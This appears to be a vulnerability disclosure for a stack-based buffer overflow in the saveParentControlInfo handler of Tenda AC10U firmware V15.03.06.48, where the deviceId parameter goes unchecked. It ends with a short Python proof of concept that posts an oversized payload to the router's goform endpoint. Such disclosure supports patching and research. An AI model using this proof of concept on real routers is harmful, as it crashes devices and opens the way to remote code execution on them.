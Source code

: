 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The function `saveParentControlInfo` contains a stack-based buffer overflow vulnerability.

![image-20240314123422079](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314123422079.png)

it reads in a user-provided parameter `deviceId`, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer.

![image-20240314123346913](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314123346913.png)

As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

![image-20240314123358041](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314123358041.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/saveParentControlInfo"
payload = b"a"*1000


data = {"deviceId": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313183417783](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313183417783.png)
